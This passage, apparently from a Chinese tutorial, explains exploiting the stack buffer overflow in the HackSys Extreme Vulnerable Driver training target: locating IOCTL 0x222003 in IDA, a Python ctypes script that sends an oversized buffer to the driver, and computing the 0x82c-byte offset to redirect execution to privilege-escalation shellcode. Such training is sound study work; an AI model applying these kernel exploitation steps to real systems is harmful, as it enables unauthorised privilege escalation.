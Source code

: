 看到红框中的汇编代码。[ebp + IoControlCode] 就是我们输入的 IO Control Code。大家稍作分析就能得出当我们的 IO Control Code 等于 0x222003 时，在最后一句 jmp 指令中 ecx 就等于 0。当最后一句 jmp 中 ecx 等于0 时就会跳转到 $LN5。而 $LN5 中的指令将跳转到函数 BufferOverflowStackIoctlHandler 中。（其中的标识符名称可能会不一样，但思路是一样的）

到目前为止我们就可以通过以下代码进入漏洞函数 TriggerBufferOverflowStack 了（HEVD 项目使用 c 来编写 exp，个人还是觉得用 python 来编写 exp 更方便一些）

```python
import ctypes, sys
from ctypes import *
 
kernel32 = windll.kernel32
# 0xC0000000 前四位为 1100,等同于GENERIC_READ | GENERIC_WRITE,即读写权限
# 0x3 为 0011,等同于FILE_ATTRIBUTE_READONLY | FILE_ATTRIBUTE_HIDDEN,即只读和隐藏属性
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", 0xC0000000, 0, None, 0x3, 0, None)
 
if not hevDevice or hevDevice == -1:
    print "*** Couldn't get Device Driver handle."
    sys.exit(0)

buf = "A" * 2048
bufLength = len(buf)
 
kernel32.DeviceIoControl(hevDevice, 0x222003, buf, bufLength, None, 0, byref(c_ulong()), None)
```

相关函数若不了解就自行查阅相关文档吧。

到目前为止我们已经可以进入漏洞函数了，那么接下来就是如何利用漏洞函数的问题了，想想我们接下来需要哪些东西？
> 1. 如何触发漏洞
> 2. 一个可以执行的空间，里面包含着我们的 shellcode。在这里为提权代码
> 3. 使指令流指向我们的 shellcode

### 如何触发漏洞
![alt 6](images/stackoverflow/6.jpg)
从 IDA 中我们可以很容易地得出从 KernelBuffer 到 r 需要 0x828 + 0x4 的 byte。也就是说，如果我们输入的buf 是 0x82c + shellcode address 的话，那么执行完 TriggerBufferOverflowStack 就会跳转到我们的 shellcode 中了。
